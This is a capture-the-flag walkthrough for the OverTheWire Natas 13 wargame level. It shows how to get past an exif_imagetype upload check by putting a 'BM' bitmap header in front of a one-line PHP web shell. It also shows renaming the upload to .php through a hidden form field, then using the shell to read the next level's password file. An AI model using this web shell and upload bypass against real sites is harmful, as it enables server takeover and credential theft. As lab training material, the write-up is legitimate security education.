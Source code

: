 # 🔐 Natas 13 Walkthrough

This level is pretty simular, except we are given the information that **for security reasons, we now only accept image files!**
So naturally we need to inspect the [View sourcecode](http://natas13.natas.labs.overthewire.org/index-source.html) link.
The line that should get your attention:

```php
 else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
}
```
It should get your attention for two reasons. Firstly, the `echo` content, obviously pointing that its connected to checking the file type. Secondly, if you've heard of it `exif_imagetype`.

## 🧠 What is exif?

We can read from the php documentation. ***exif_imagetype() reads the first bytes of an image and checks its signature.*** File types have different headers. Thats what this function does. It just checks the first bytes for file headers.
So, in order to get out `shell.php` file pass we need to give it an image header. Let's look at basic file type headers:

| Filetype | Header (ASCII) |
| -------- | -------------- |
| png      | ‰PNG           |
| jpg      | ÿØÿà           |
| bmp      | BM		    |

As we can see alot of the headers translated to ASCII are non-standard characters, this can be a problem so let's pick the one with normal chars - **bmp (bitmap).**

## 🛠️  Adding the header to the script

Let's take the script from our natas12 solution and add `BM` infront of it, so the `exif` function thinks the file is a **bitmap.**
```php
BM<?php echo shell_exec($_GET['e'] . ' 2>&1');?>
```

Now once we selected the file, we still need to change the file extension in the sourcecode of the website - as done previuosly in natas12. **Inspect** and navigate to:
```html
<input type="hidden" name="filename" value="<YOUR RANDOM STRING HERE>.jpg">
```

***Change it to:***

```html
<input type="hidden" name="filename" value="<YOUR RANDOM STRING HERE>.php">
```

Now let's upload the the file. If done correctly, the file should upload and the `this file is not an image` error shouldn't pop up. Next click the uploaded file and find this:
```
BM
Notice: Undefined index: e in /var/www/natas/natas13/upload/90ie57i74v.php on line 1
```

This is practically the same line as in natas12. Only the header is **BM**, as it should be.

## 🔎 Navigate through the server contents

Like in natas12, we need to change the `e` variable as in our script. Let's change the url as before, firstly `?e=ls`:
```
http://natas13.natas.labs.overthewire.org/upload/90ie57i74v.php?e=ls
```

This should give us a list of all the files inside the server.

>[!CAUTION]
>As you can see at the start of the list there still is the **BM** header. Keep that in mind.

Now let's `?e=cat%20/etc/natas_webpass/natas14` to get the natas14 password:

```
http://natas13.natas.labs.overthewire.org/upload/90ie57i74v.php?e=cat%20/etc/natas_webpass/natas14
```

This will give us the password to natas14. ***HOWEVER...***
This printed line still contains the **BM** header, so in order to get the correct password, make sure to delete it :).
